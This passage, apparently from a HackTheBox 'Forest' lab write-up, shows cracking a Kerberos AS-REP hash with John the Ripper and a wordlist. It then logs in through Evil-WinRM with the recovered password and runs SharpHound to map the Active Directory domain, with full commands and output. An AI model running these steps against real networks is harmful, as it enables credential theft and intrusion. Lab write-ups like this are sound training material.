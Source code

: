 ### Cracking the hash

John gives us the password `s3rvice` found in rockyou. Note that john can be finnicky and things like trailing whitespace or extra empty lines can really mess up it's ability to detect what kind of hash it's cracking.

```
john roastme.txt --wordlist=~/rockyou.txt 

Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB)
1g 0:00:00:02 DONE (2022-01-07 09:08) 0.3663g/s 1496Kp/s 1496Kc/s 1496KC/s s4553592..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

### Enumeration as svc\_alfresco

Just connect with evilwinrm and begin the enumeration process

```
ruby ~/evil-winrm/evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

Upload sharphound and download it's contents. For time efficiency can search through the Bloodhound dataset while a program like `winpeas` scans the system.

```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload /home/kali/HTB/forest/SharpHound.exe
Info: Uploading /home/kali/HTB/forest/SharpHound.exe to C:\Users\svc-alfresco\Documents\SharpHound.exe

                                                             
Data: 1110696 bytes of 1110696 bytes copied

Info: Upload successful!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> ./SharpHound.exe
----------------------------------------------
Initializing SharpHound at 6:27 AM on 1/7/2022
----------------------------------------------

Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain HTB.LOCAL using path CN=Schema,CN=Configuration,DC=htb,DC=local
[+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 21 MB RAM
Status: 123 objects finished (+123 61.5)/s -- Using 28 MB RAM
Enumeration finished in 00:00:02.4490516
Compressing data to .\20220107062739_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 6:27 AM on 1/7/2022! Happy Graphing!

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> download 20220107062739_BloodHound.zip
Info: Downloading 20220107062739_BloodHound.zip to ./20220107062739_BloodHound.zip

                                                             
Info: Download successful!
```